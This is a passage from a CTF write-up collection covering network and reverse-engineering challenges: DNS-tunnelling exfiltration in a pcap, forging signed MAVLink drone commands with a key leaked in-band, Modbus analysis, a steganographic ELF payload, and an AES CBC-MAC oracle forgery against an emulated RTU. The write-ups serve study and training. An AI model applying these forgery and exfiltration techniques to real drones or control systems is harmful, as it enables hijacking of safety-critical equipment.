- A hijacked session surfacing from a second, never-authenticated source IP in the access log is the giveaway: correlate `LOGIN` events to the IPs that later issue `COMMAND`s.
- `GET /api/status` acting as self-documentation for the signing scheme is a deliberate "safe recovery" path — read it before guessing request formats.


### Radar Silence

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| network | 158 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> RDR37 (192.0.2.37) carries the air-surveillance radar link of an Operation Dawn ally whose picture feeds the coalition's shared air surveillance; OPS40 (192.0.2.40) logs operations. Before a scheduled cutover, analysts marked RDR37 for a suspected bearer-token leak.
>
> This PCAPNG is an isolated-lab replay, not a production capture. Determine whether a bearer token left RDR37 and recover it for reissue.
>
> Submit `CSCTF{<source>_rotation_<token>}` using the lower-case station ID and a 32-character lower-case hex token.

**Artifact files:** `files/radar-silence.pcapng` (not committed)

#### TL;DR

The capture is 28 DNS packets only. RDR37 leaks the token through DNS tunnelling: four queries to `<chunk>.<NN>.update.svc-telemetry.example`, each carrying a base32 fragment with its sequence index. Reordering by `NN` and base32-decoding gives the 32-hex token (`CSCTF{rdr37_rotation_...}` redacted).

#### Approach

**1. Recon**

```bash
tshark -r radar-silence.pcapng -q -z io,phs   # eth > ip > udp > dns, 28 frames
tshark -r radar-silence.pcapng -T fields -e ip.src -e dns.qry.name
```

Most names are benign noise (`wpad`, `ocsp`, `time`, `_dmarc`, ...). Only RDR37 queries four odd names, all under `update.svc-telemetry.example`, with a 13-character label and a 2-digit index:

```
miytaojxmy3gk.00.update.svc-telemetry.example
ojxg4ydcnldmf.01.update.svc-telemetry.example
rtamrzg5sgiyz.02.update.svc-telemetry.example
tgmztknjqhfta.03.update.svc-telemetry.example
```

Note they are **out of order in the capture** (02, 00, 03, 01): the index must be used. OPS40 only does ordinary lookups (decoys).

**2. Decode**

The labels use the alphabet `a-z2-7` → base32. Concatenate by index 00→03 (52 chars), pad, decode → 32 ASCII hex chars, matching the required token format.

**3. Flag**

`CSCTF{rdr37_rotation_<token>}` — see `solve/solve.py` (flag redacted).

#### Key takeaways

- DNS tunnelling signs: many unique subdomains under one odd parent domain, base32 labels, sequence index.
- Packet order ≠ data order; always sort by the embedded index.
- Filter by source host: decoy queries from the other station are irrelevant.


### Severed Link

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| network | 84 | ✅ | — | no | 0xAr3s-root | Teodor Giurgica |

#### Challenge description

> A reconnaissance drone on an ISR mission for an allied force in the Operation Dawn theatre takes orders from its field station over a signed MAVLink 2 link. Mid-mission the operator rotated the signing key, then pushed the new key over that same link while it was being recorded.
>
> Attached: the recording and the operator's notes. The uplink gateway is still online as it was during the incident. Show that an outsider can take the operator's place and command the aircraft.
>
> Flag format: `CSCTF{...}`

**Artifact files:** `files/mission.tlog`, `files/mission.pcap` (the same traffic over UDP/14550), `files/ops_notes.txt` (not committed). **Target:** a timed live instance (`w01.ctf.chronos-security.ro:<port>`, 30-minute TTL, a plain TCP MAVLink 2 relay).

#### TL;DR

The operator rotated the MAVLink 2 link-signing key with a `SETUP_SIGNING` message sent *over the same signed link that was being recorded*; the new 32-byte key sits in plain sight in that message's payload. Replaying it is refused (anti-replay), but re-signing a fresh `HEARTBEAT` + `COMMAND_INT` `DO_REPOSITION` with that key and the gateway's own clock authenticates as the operator and returns the flag.

#### Approach

**1. Recon — a signed link and a key handed out over itself**

`ops_notes.txt` gives the setup: operator is sysid 255, drone is sysid 1, every frame is MAVLink 2 signed. Mid-mission the signing key was rotated, but *in-band*, over the console link itself, instead of an out-of-band channel — "that was a mistake: the new key went out over a link that was being captured". `mission.tlog` (and the equivalent `mission.pcap`, MAVLink over UDP/14550) is exactly that capture.

A `.tlog` is a sequence of `(8-byte big-endian wall-clock microseconds, raw MAVLink 2 frame)` records. Parsing 107 frames gives mostly `HEARTBEAT`/`ATTITUDE`/`GLOBAL_POSITION_INT`, plus one `SETUP_SIGNING` (message id 256) from the operator (sysid 255) to the drone and one `COMMAND_INT` `DO_REPOSITION` (id 75, `MAV_CMD_DO_REPOSITION` = 192) — a real, previously-accepted reposition order.

**2. Hypothesis — the rotation message carries the new key in the clear**

`SETUP_SIGNING`'s wire payload (42 bytes: MAVLink reorders fields by size, longest first) is `initial_timestamp(8) · target_system(1) · target_component(1) · secret_key(32)`. Decoding it gives `target_system/component = 1/1` (the drone) and a 32-byte `secret_key`. I verified it is the active key by recomputing the signature (`SHA-256(key ‖ header+payload+CRC ‖ link_id ‖ timestamp)[:6]`) of every one of the 47 signed frames that follow the rotation in the capture: all 47 match. The key itself is never transmitted anywhere else, confirming the notes' claim that it "went out over a link that was being captured" — the capture is a complete, self-sufficient leak.

Connecting to the live gateway confirms the scenario end to end:

```
SB-7 uplink gateway online. Authenticate as operator: signed COMMAND_INT
DO_REPOSITION from sysid 255 under the fleet link key. Replayed frames are
refused, the signing timestamp must be current.
```

An unsigned `HEARTBEAT` is met with `DENIED: frame is not authenticated under the link key.` — so even the handshake must be signed with the recovered key.

**3. Exploitation — re-sign, don't replay**

Replaying the captured `DO_REPOSITION` bytes verbatim would be refused (its signing timestamp is stale and the gateway checks for replay). The signing timestamp field is the standard MAVLink 2 clock — 10-µs ticks since 2015-01-01T00:00:00Z — confirmed by a first probe: sending a freshly-signed but arbitrary timestamp got `DENIED: stale signing timestamp outside the freshness window. Link time is 37399709984355.`, which decodes to the exact wall-clock time of that attempt. So each frame must be signed with `round((now_utc − 2015-01-01T00:00:00Z) / 10 µs)` computed at send time.

The gateway also refuses a bare command: `REJECTED: send a HEARTBEAT first.` — so the sequence is a signed `HEARTBEAT` (sysid 255) to open the session, immediately followed by a signed `COMMAND_INT` `DO_REPOSITION` (reusing the reposition's own target coordinates from the capture, since only the signature needs to be fresh, not the content) addressed to the drone (sysid 1):

```bash
python3 -I solve/solve.py files/mission.tlog w01.ctf.chronos-security.ro <port>
```

The gateway answers:

```
OPERATOR AUTHENTICATED. Reposition accepted.
Audit receipt: CSCTF{...}
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- Rotating a compromised key over the very channel that is suspected compromised (or, here, being recorded) defeats the rotation: the new secret is exposed by the same capture that would expose the old one.
- MAVLink 2's `SETUP_SIGNING` places the raw key on the wire by design — it assumes the channel it travels over is already trusted/out-of-band; sending it back down the in-band link removes that assumption entirely.
- Anti-replay (a monotonically increasing signing timestamp) stops byte-for-byte replay but not forgery once the key is known: the fix is re-signing fresh content with the real key and the receiver's own clock, not resending captured frames.
- The gateway's own error messages (`DENIED: frame is not authenticated…`, `stale signing timestamp… Link time is …`, `send a HEARTBEAT first`) fully specified the protocol state machine; no blind guessing was needed.

#### Tools & references

- Python 3 (`struct`, `socket`, `hashlib`, `datetime`), `tshark` (to confirm the pcap carries the same MAVLink 2/UDP traffic)
- MAVLink 2 packet signing (`SETUP_SIGNING`, message id 256) and framing (`COMMAND_INT`, `HEARTBEAT`)


### Water Hammer Reconciliation

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| network | 124 | ✅ | — | no | 0xAr3s-root | Cosmin Gorea |

#### Challenge description

> The Vardessa Civil Water Reserve header was isolated after a hostile engineering-station interval, part of a wider campaign against emergency water logistics that coalition analysts tie to an Ash Army proxy. Vardessa is an Operation Dawn partner.
>
> Reconstruct the complete confirmed Modbus/TCP control history and submit the reconciliation identifier the evidence supports. `water-hammer-reconciliation.zip` holds all three evidence files: the capture `reserve-header.pcapng`, `station-profile.txt` and `capture-manifest.txt`. `station-profile.txt` defines the scoped conversation, the confirmation rule, the safety screen, the report grammar and the submission encoding; `capture-manifest.txt` identifies the evidence and its provenance. No live plant, external service or credential is involved.
>
> The capture holds ordinary reads, one exception and one unanswered write. A write acknowledgement on its own is not a confirmed control snapshot, so follow the profile's matched-readback rule.
>
> Flag format: `CSCTF{message}`

**Artifact files:** `files/reserve-header.pcapng`, `files/station-profile.txt`, `files/capture-manifest.txt` (not committed).

#### TL;DR

Reassemble the single Modbus/TCP conversation, keep only FC16 writes whose unique normal echo is followed by the exact FC3 readback with a unique matched answer (64 snapshots), serialize them in the canonical report with the integer-only unsafe mask, SHA-256 it and Base32-encode the first 24 bytes → flag.

#### Approach

**1. Recon — the profile is the specification**

`station-profile.txt` fixes everything: the scoped conversation (`192.0.2.10:<ephemeral>` → `192.0.2.20:502`, unit 17), the strict MBAP grammar (protocol id 0, Length = 1 + PDU, no truncation or trailing bytes), the register map (0x1000 pump target, 0x1001 gate permille, 0x1002 armed, 0x1003 ramp µs), the confirmation rule, an integer safety screen (E, V, Q with `T_US = 37558`), the exact report text `R` and the encoding (`SHA-256(R)` → first 24 bytes → unpadded Base32 → 39 characters), plus a public synthetic test vector. `capture-manifest.txt` only gives provenance and the capture's SHA-256, which matches (`6af88183…`).

The capture is one TCP conversation (client port 36853) of 536 frames, 2,190 client bytes and 1,933 server bytes. Segment boundaries do not matter: some ADUs are split across segments, so I reassembled each direction by TCP sequence number and framed the byte streams by the MBAP length. Client function codes: 68 FC3 and 66 FC16; server: 68 FC3, 64 FC16 normal responses and one FC16 exception (`0x90`, code 04).

**2. Hypothesis — a snapshot needs four things, in order**

A write counts only if: (1) the FC16 request is a valid candidate (unit 17, start/quantity inside 0x1000–0x1003, Length `7 + 2N`, byte count `2N`); (2) exactly one normal response with the same transaction id comes back with the exact `10 || A || N` echo (the exception, an unpaired request and any duplicate or mismatched echo never confirm); (3) the immediately next client ADU after that response is exactly `FC3 1000 0004` (unit 17, Length 6); and (4) its response is unique with Length 11 and `03 08` + 8 bytes. The row values are the **FC3 readback registers**, not the written data, and the report `tid` is the **FC16 response** transaction id (here `2000`, `2011`, `2022`… while the FC3 ids look like `8000`, `8013`…). Snapshots are ordered by the frame ordinal of the FC16 response.

Decoys to discard: initial harmless FC3 reads (`e010`, `e011`), the FC16 exception (`e100`), and the final unpaired FC16 request. The result is exactly the 64 snapshots the profile announces.

**3. Exploitation — serialize and hash**

With the initial tuple (80, 500, 0, 60000): `E = P·G/1000`, `V = E·10⁶/70686` (integer floors), `Q = 998·1065·|V − V_prev|`, `UNSAFE = A=1 ∧ R < 37558 ∧ Q > 9000·10⁵`; the mask is `Σ UNSAFE_i · 2^(63−i)` as 16 uppercase hex digits. I first checked my formulas against the public test vector (V₋₁ = 565, row 0: E=160, V=2263, Q=1804753260, mask `8000…`, SHA-256 `401df824…`, Base32 `IAO7QJHG…`): all match exactly. On the real data every one of the 64 rows is armed, below the ramp threshold and has a velocity change (the "attack interval" evidence checks), 22 of them exceed the Q limit, and the mask is `D3FC7C00A3060000`. The canonical report is hashed and the first 24 bytes encoded in Base32 (39 characters).

```bash
python3 -I solve/solve.py files
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- When the statement ships a specification and a test vector, implement the vector first: matching it to the byte (including the Base32) removes whole classes of off-by-one and encoding doubts before touching the real data.
- Reassemble the TCP streams before parsing: a packet-by-packet read would split or merge ADUs, and the profile says explicitly that segment boundaries create no events.
- "Matched readback" means the report uses the device's readback, not the command; and the identifier to serialize is the FC16 *response* tid, a detail that is easy to get wrong.
- All arithmetic stayed in Python integers: Q reaches about 2.4·10⁹, beyond signed 32-bit.

#### Tools & references

- `tshark` (conversation overview), Python 3 (`struct`, `hashlib`, `base64`; own pcapng and TCP reassembly)
- Modbus Application Protocol v1.1b3 (FC3, FC16, exceptions), Modbus/TCP MBAP header, RFC 4648 Base32


## Reverse / Malware

### Carrier Shadow

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| reverse | 264 | ✅ | — | no | 0xAr3s-root | Armand Alexandru Balint |

#### Challenge description

> A stripped x86-64 Linux ELF, pulled off a forward Ash Army command post after a hasty retreat. Prints a few lines of hex utility output when run. Signals suspects it is a carrier for something else: the usual places — data sections, strings, overlays, appended archives — are clean, but the binary's own second-stage payload signature turned up in captured traffic.
>
> Find where the payload actually lives in this binary, lift it out, and read the authorization string it carries. Static analysis beats a sandbox here — this is a reverse-engineering problem, not a shellcode run.
>
> Attachment: `carrier-shadow` — 1337736 bytes, SHA-256 `995fd7161d984898e521eb581f93380b11f31e3de342b368519a2221fb192a04`. Static ELF, no network, no setuid.
>
> Flag format: `CSCTF{...}`

**Artifact files:** `files/carrier-shadow` (not committed). Tags: steganography, total-warfare.

#### TL;DR

The second stage is hidden in the **function-size pattern of the `.eh_frame_hdr` search table**: after a PRNG-generated anchor, the gap between consecutive FDE addresses encodes Huffman symbols, whose bits (whitened with the same PRNG) form a raw DEFLATE stream of an ELF; its `.rodata` holds the authorization string → flag.

#### Approach

**1. Recon — a hex utility that is far too big**

`file`: PIE, dynamically linked, stripped. `strings` shows `hexkit 1.2.0` (crc32/fnv1a64 and a "micro-function registry self-test") and nothing else. But the file is 1.3 MB for that: `.text` is 626 KB and `.eh_frame` 496 KB, while `.data`, `.rodata` and the section tail have nothing worth hiding data in, which matches the brief ("data sections, strings, overlays, appended archives are clean"). I did not run it.

Reading the start-up code from the entry point (`objdump -d`), one routine does not belong to a hex tool: it walks its own program headers looking for `PT_GNU_EH_FRAME` (`0x6474e550`), decodes the `.eh_frame_hdr` encodings (a DW_EH_PE reader), allocates `count × 8` bytes and fills it with the table's function addresses, then calls a function that loads the constant **`0x6a2b3c4d`** — the "payload signature". A final call checks that the result starts with `0x464c457f` (`\x7fELF`), then hands it to another routine. So the loader rebuilds an ELF from the unwind table's search table.

**2. Hypothesis — read the loader as a specification**

Reading the decoder function (about 0x600 bytes of x86) gives the whole format:

1. **Table**: `.eh_frame_hdr` (version 1, table encoding `0x3b` = datarel sdata4) lists 24,816 FDEs sorted by address. For the first ~120 entries the gaps are multiples of 16 (genuine functions); from entry 123 on, gaps are small and odd (2…120): the carrier. I computed the gaps `g[i] = loc[i+1] − loc[i]`.
2. **Anchor**: it seeds `xorshift32` with `0x6a2b3c4d` (`x ^= x<<13; x ^= x>>17; x ^= x<<5`), makes 8 values `x % 61 + 34`, and searches for 8 consecutive gaps equal to them (`69 75 80 91 47 58 35 37`): found at entry 123.
3. **Header**: the next 6 gaps, minus 2 each: table index (must be 0 or 1), a 4-byte little-endian length, and an XOR checksum. Here: table 0, length **17,733**, checksum **116**.
4. **Payload**: every following gap, minus 2 (so 0…255), is a *symbol* of a canonical Huffman code whose 256 code lengths come from `.rodata` (the loader indexes a pointer array in `.data.rel.ro`: entry 0 → `0x9b340`, entry 1 → `0x9b240`; I read them from the relocations). Codes are assigned the deflate way (shortest first, ties by symbol value), and the bits are appended **MSB first** until `8 × length` bits are collected.
5. **Check and whitening**: the XOR of all bytes must equal the checksum, then each byte is XORed with the low byte of the next `xorshift32` output (same seed).
6. The caller passes the result to a function that is `puff.c`-style (count-per-length tables, `bits()` with a saved position, a `longjmp` on error): **raw DEFLATE**. Its output must start with `\x7fELF`.

**3. Exploitation — redo it offline**

Table 0 gives the right checksum (XOR = 116); table 1 (a ramp of code lengths 6…) gives 255: a decoy. The script re-implements the six steps, writes the 34,192-byte stage-2 ELF (static, stripped) and prints the authorization string found in its `.rodata`, next to its printf format `payload: operation-dawn authorization = %s`. I did not execute stage 2 either.

```bash
python3 -I solve/solve.py files/carrier-shadow stage2.elf
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- Steganography does not have to live in bytes of the file: here the *layout* (function sizes in the unwind table) carries the data, so scanning sections, strings and overlays finds nothing.
- A constant that looks like a seed (`0x6a2b3c4d`) used twice (anchor generation and whitening) was the pivot: it is both the "signature" mentioned in the brief and the key to the format.
- Header fields with their own checks (length range, XOR) make good oracles: they let me tell the real code-length table from the decoy without running anything.
- The loader code was a precise specification; implementing the same steps in Python is faster than emulating or sandboxing, which is what the brief asked for.

#### Tools & references

- `readelf`, `objdump`, `xxd`, Python 3 (`struct`, `zlib`)
- ELF program headers, `.eh_frame_hdr` binary search table (DW_EH_PE encodings), canonical Huffman codes, xorshift32, puff.c / raw DEFLATE


### Ghost Bank

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| reverse | 29 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> A dormant relay bench from Brenzava exposes a single stopped GDB RSP endpoint. Behind it sits a controller with a sealed diagnostic bank. Recover the staged incident tasking; the flag is the code it contains.
>
> Flag format: `CSCTF{...}`

**Artifact files:** `files/ghost-bank.zip` → `firmware.bin` (956 B AArch64 flat image), `firmware-load.txt`, `capture.ndjson` (not committed). Live instance: raw-TCP RSP at `w01.ctf.chronos-security.ro:34224` (expired).

#### TL;DR

The stub emulates an MMIO controller: the firmware's `f(challenge)` unlocks it, `CONTROL=0x9c` (STATUS 4) makes page 7 expose the 32-byte vault key, and page 3 (the only page with `CIPHER_LEN≠0`, 131 B) decrypts with the firmware's own ChaCha block (nonce `SEAL-V01\0\0\0\1`, counter 1) → tasking containing the flag.

#### Approach

**1. Recon — a firmware that never runs, a capture that replays a ritual**

`firmware-load.txt` gives the MMIO map (CONTROL, PAGE, OFFSET, DATA, CIPHER_LEN, CHALLENGE, KEY, STATUS) and the RSP subset. `c`/`s` just return `S05`: the firmware is never executed, the stub *emulates* the registers. The capture shows the ritual `CONTROL=0x41 → read CHALLENGE → PAGE=7 → KEY (2×32-bit) → CONTROL=0x93 → STATUS=3`. In radare2 the live loop at `0x400040` does exactly that, with the key computed by a splitmix-like `f()` at `0x400120`; `f(0x0123456789abcdef)` equals the captured KEY, which validates the reversing. Dead code remains: a ChaCha quarter-round/block (`0x400090`/`0x400174`), a stream-XOR (`0x4002dc`) and the constants `"expand 32-byte k"` + `"SEAL-V01"`.

**2. Hypothesis — the bank is ChaCha-encrypted, but where is the key?**

Dumping pages gives high-entropy bytes independent of session, challenge and key. Hours went into guesses (repeating-XOR, splitmix streams, ChaCha with KEY/CHALLENGE/XML hashes as key, decompressors) — all negative, because I was only reading pages in states 0/3 and only ever looked at page 7.

Three observations broke it open:
- `qXfer` is advertised in `qSupported` but answers `E01` on a fresh session; after `CONTROL=0x41` it serves the XMLs (they match the two documented SHA-256, and hide nothing — the hashes are integrity checks, not keys).
- `CIPHER_LEN` is **page-dependent**: scanning PAGE 0–63 shows it non-zero only on **page 3 (131)**. I had only polled it on page 7.
- `CONTROL=0x9c` (the firmware's last store) moves STATUS to **4**, and in that state page 7 no longer returns the sealed bytes but **32 bytes of key followed by zeros**.

**3. Exploitation**

```bash
python3 solve/solve.py w01.ctf.chronos-security.ro 34224   # run from the folder holding firmware.bin
```

1. Read page 3 (131 B) — the ciphertext.
2. Run the ritual with `PAGE=7` (writing another page before the key makes the check fail and resets PAGE to 0), `CONTROL=0x9c`, STATUS=4.
3. Read 32 bytes of page 7 → vault key.
4. Decrypt with the firmware's *own* block function (Unicorn runs `0x400174`, which uses a non-standard state layout; a stock ChaCha20 would be wrong), keystream block `n` for counter `1+n`, constants `SEAL-V01` + `00 00 00 01`.

Plaintext: `TASKING//STAGED-EW//RELAY-BENCH//AUTHKEY CSCTF{…}//JAM PROFILE: …//END`.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- I fixed on page 7 because the capture and the firmware both mention it, and burned time on cryptanalysis of the wrong data. Enumerate *every* observable register on *every* page and in *every* state before attacking the cipher: `CIPHER_LEN` pointed to page 3 in one loop.
- Dead code is the spec of the emulated device: the last firmware store (`0x9c`) was a state transition I discarded as a loop epilogue.
- Features gated behind a state (`qXfer` after `0x41`) are worth re-probing after each transition.
- Reuse the firmware's own crypto via emulation instead of re-implementing it; a "ChaCha" with a permuted state would never match a library.

#### Tools & references

- Python 3 raw RSP client, radare2 (`-a arm -b 64`), Unicorn (AArch64), gdb-multiarch not required
- GDB Remote Serial Protocol, ChaCha20 (RFC 8439 structure), SplitMix64


### Ground Lock

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| reverse | 163 | ✅ | — | no | 0xAr3s-root | Chronos Security |

#### Challenge description

> A response team recovered the ground-maintenance utility used to service the GRIFFON-FC drones an Ash Army proxy flies over the Operation Dawn theatre. The accepted service code is needed before equipment handover.
>
> Recover that code. This is a constructed software case: the attachment is a Linux utility, not flight-controller firmware or a hardware dump, and static analysis is enough.
>
> Attachment: `fcunlock`, Linux x86-64 ELF, 682,600 bytes, SHA-256 `9634a7c4c4769a21eb921125a3d1b0ef560e3f4ed0202efa860861f0d2922399`.
>
> Submit `CSCTF{<service-code>}` with the exact 24 code bytes and case.

**Artifact files:** `files/fcunlock` (not committed — currently at `reverse/fcunlock`)

#### TL;DR

`main` splits the 24-byte argument into three 8-byte little-endian words, runs each through the splitmix64 finalizer, and compares against three stored targets — and that finalizer is fully invertible mod 2⁶⁴, so each target inverts to its exact 8 code bytes.

#### Approach

**1. Recon — behavior first, then the checker shape**

```bash
sha256sum fcunlock  # 9634a7c4…922399 matches
file fcunlock       # ELF 64-bit LSB executable, x86-64, dynamically linked, stripped
./fcunlock          # usage: ./fcunlock <service-code>  (exit 2)
./fcunlock AAAA     # ACCESS DENIED (exit 1)
```

`main` (at `0x4016da`, via `__libc_start_main` from entry `0x401530`) enforces exactly one argument of exactly 24 bytes (`strlen` vs `3*8`), otherwise usage/`ACCESS DENIED`. The success path prints `GRIFFON-FC ground-maintenance interlock released.` then `Maintenance token: CSCTF{%.*s}` with the input — so the flag *is* the accepted input, and the comparison is the whole lock:

```c
for (i = 0; i < 3; i++) {
  acc = 0;
  for (j = 0; j <= 7; j++)
    acc |= (uint64_t)input[8*i + j] << (8*j);   // u64le load
  if (mix(acc) != table[4 + i]) fail = 0;        // table @ 0x479020
}
```

The rodata table holds the two mix constants (`0xff51afd7ed558ccd`, `0xc4ceb9fe1a85ec53`), the shift (`33`), the count (`3`) and the three digests — the trailing qword decodes as ASCII `usage: %`, i.e. it is just the packed string area, not a fourth target.

**2. Hypothesis — splitmix64 finalizer, invertible, no brute force needed**

The function at `0x401655` is the splitmix64 mixer verbatim:

```
x ^= x >> 33;  x *= 0xff51afd7ed558ccd
x ^= x >> 33;  x *= 0xc4ceb9fe1a85ec53
x ^= x >> 33
```

Every step inverts over 2⁶⁴: `x ^= x >> 33` is an involution (2·33 ≥ 64, so applying it twice cancels), and both multipliers are odd, hence invertible via `pow(m, -1, 2**64)`. Inverting each digest yields the unique 8-byte chunk — no search, no angr, no execution beyond a final confirmation run.

**3. Exploitation — invert, verify, submit**

```bash
python3 solve/solve.py ../fcunlock
# [*] Table       : shift=33 count=3
#     chunk 0 mix == 0x8bfd351846ffb86b
#     chunk 1 mix == 0x3ff3fd892aa7e3b2
#     chunk 2 mix == 0xf61e79e7e639e0d2
# [*] Code bytes  : b'...' (24 bytes, all printable ASCII)
# [+] FLAG            : CSCTF{...}
./fcunlock "$CODE"  # GRIFFON-FC ground-maintenance interlock released. (exit 0)
```

The solver locates the table by the `S1||S2` byte pattern (the constants also occur as `movabs` immediates in `.text`), inverts the three digests, and asserts the forward round-trip before printing. The binary confirms with exit 0.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}` (redacted)

#### Reflections

- Reading the rodata tableStruct-first (`constants, shift, count, digests`) beats staring at the loop: the layout tells you the algorithm's parameters before you even disassemble the mixer.
- Recognizing splitmix64 by its two magic constants (`ff51afd7ed558ccd`, `c4ceb9fe1a85ec53`) short-circuits the analysis — these are among the most distinctive 64-bit constants in the wild.
- Invertible checks are common in easy RE: always test whether the transform is a bijection (odd multiplies, xorshifts with shift > 32) before reaching for brute force or symbolic execution.

#### Tools & references

- Python 3 stdlib (`struct` — table carving, `pow(a, -1, 2**64)` — modular inverses)
- `objdump -d -M intel`, `file`, `sha256sum` (static triage; one confirmation run)
- Splitmix64 (Steele et al. — the `mix64` finalizer and its inverse)


### HELIOS-RTU

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| reverse | 52 | ✅ | — | no | 0xAr3s-root | Ionut Coserea |

#### Challenge description

> A HELIOS GRID remote terminal unit (RTU) exposes a single web service console. Behind it is a real emulated ATmega328P running signed control firmware. The unit issues a service token only for a correctly authenticated control directive — and the authentication key is physically unreadable from outside.
>
> Identify the silicon, bring up the one interface on the bench that still answers, recover the application firmware, and produce a valid authentication tag over a control directive carrying the live nonce. Interact only with your assigned instance.
>
> Flag format: `CSCTF{...}`

**Artifact files:** live instance only (`http://w01.ctf.chronos-security.ro:34019/` at solve time — expired)

#### TL;DR

Wire the AVR ISP adapter to the ICSP header to identify an ATmega328P (`0x1e950f`) whose flash is lock-protected, read the 2 KiB application through the USB serial bootloader instead, learn from its AES-CBC-MAC control frame that a directive is `frame[16]=0xCC, frame[17]=0x0A, nonce at [18:26]`, and forge the tag with the service's own `svc sign` encryption oracle (`tag = sign(b2 XOR sign(b1))`).

#### Approach

**1. Recon — one WebSocket, a bench, and four adapters**

The page is a dumb terminal: every typed line goes verbatim over `/ws` as JSON, and the bench sends the same socket a `wire $ADAPTER $LEAD:$PIN ...` line. `help` exposes a *real* `avrdude` CLI (`signature, lfuse/hfuse/efuse/lock, flash, eeprom` readable) plus `bench`/`wire`; `svc` exists only after the fake `apt install svc` (`nonce | telemetry | sign $REC | exec $FRAME $TAG`). Adapters on the bench: AVR ISP (6 leads), USB cable, JTAG probe, debugWIRE probe (DW/VCC/GND). Nothing says which wiring is right — the console answers are the only oracle.

**2. Hypothesis — identify the silicon, then try every transport**

debugWIRE first (`DW→RESET, VCC→5V, GND→GND_A`, `-c jtag2dw`): `[debugwire] sending BREAK` but the target never asserts the dW line. ISP on the ICSP header (`MISO/MOSI/SCK/RESET/VCC/GND → ICSP_*`) answers immediately: signature `0x1e950f` (**ATmega328P**), `lfuse=FF hfuse=D8 efuse=FD lock=FC`. The fuses explain the bench: `DWEN=1` (debugWIRE fused off — hence no sync), `SPIEN=0` (ISP alive), `BOOTRST=0` with a boot section, and `LB` programmed so ISP flash reads return pure `0xFF` (EEPROM too). JTAG does not exist on a 328P. The USB cable (`-c arduino`) is the one interface that still answers with real data: the serial bootloader returns the **2 KiB application firmware** at flash `0x0000` (everything past `0x0800`, including the key region, reads `0xFF`).

Disassembly (radare2, AVR) of that application: vectors → `main @ 0x536` (UART frame `0xAA, type, len, payload`), an AES-128 core (`0x39a` encrypt, `0x2b6` key expansion, S-box at flash `0x73`) whose round keys expand from 16 bytes copied out of flash `0x7F00` — precisely the region no external interface will return. Type-5 frames (48-byte payload) are checked by AES-CBC-MAC over the payload, then require `payload[16]==0xCC`, `payload[17]==0x0A`, then answer with the current 8-byte nonce (xorshift32 PRNG at SRAM `0x1B0`, seeded `0xE98EDACA`). The service commands are the same machine at one remove: `svc sign $REC16` is the device AES as an encryption oracle (records starting `0xCC` are refused), `svc exec $FRAME32 $TAG` is the type-5 verifier.

**3. Exploitation — CBC-MAC forgery over a live, single-use nonce**

```bash
python3 solve/solve.py http://w01.ctf.chronos-security.ro:34019/
# [*] Live nonce    : ff0e23f621056868
# [*] Frame         : 00000000000000000000000000000000cc0a$NONCE000000000000
# [*] CBC-MAC tag   : c7fc… (sign[0] then sign[1 xor sign[0]])
# [*] exec reply    : service: directive authenticated
#                     service: control action ISSUE_TOKEN accepted
#                     service: SERVICE TOKEN = CSCTF{...}
```

Frame layout: 16 zero bytes, directive marker `CC 0A`, the live nonce (8 bytes), 6 zero bytes. Tag: `sign(frame[0:16])`, XOR into `frame[16:32]`, `sign` again — the textbook CBC-MAC construction, computed through the oracle because the key itself never leaves the chip (extracting it was never necessary). The nonce is single-use and instance-wide: read it, do both signs, and `exec` in the same session, or the unit answers `directive nonce stale`. Wrong marker offsets answer `frame carries no control directive`; a bad tag answers `directive authentication failed` — the three errors cleanly separate the three checks.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`flag{...}` (redacted)

#### Reflections

- Fuse bytes are a bench map: `DWEN`, `SPIEN`, `BOOTRST` and `LB` predicted which of the four adapters could work before a single wire was dragged — reading `hfuse/lock` first turns "try everything" into a checklist.
- "Physically unreadable" was literal and bounded: the bootloader happily returns the application but `0xFF`s the key's home at `0x7F00`. The intended pivot is from *extract the key* to *use the device's own encryption as an oracle* — CBC-MAC forgery needs the oracle, not the key.
- Error strings are a protocol spec: `authentication failed` (MAC) vs `carries no control directive` (marker bytes) vs `nonce stale` (freshness/position) told me which of the three gates each attempt passed, making the frame layout a 4-trial search instead of a guess.

#### Tools & references

- Python 3 (`websockets` client, WebSocket `/ws` line protocol) + `curl` (asset recon)
- radare2 (`-a avr`, `aaa`/`pdf`) on the bootloader-recovered application; `avrdude` CLI semantics in-console
- ATmega328P datasheet (signature `0x1E950F`, fuse/lock-bit maps, debugWIRE/ISP/bootloader entry conditions), AES-128 CBC-MAC oracle forgery


### Operation Dawn: Radio Recovery

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| reverse | 156 | ✅ | — | no | 0xAr3s-root | Terminal43 |

#### Challenge description

> A hostile intrusion cut the field-radio support link of a fictional country. Responders pulled `firmware.bin`, a software recovery bundle, and need the administrative recovery token locked inside it.
>
> Recover the complete `CSCTF{...}` value. The bundle is constructed but uses real compression and archive records; it is not a hardware dump or a bootable radio image.
>
> Attachment: `firmware.bin`, 1,048,576 bytes, SHA-256 `ae253e80cfca3035fe1e882c3c26a75b1d701f1b1bb343ba290d590573bc4313`.

**Artifact files:** `files/firmware.bin` (not committed — currently at `reverse/firmware.bin`)

#### TL;DR

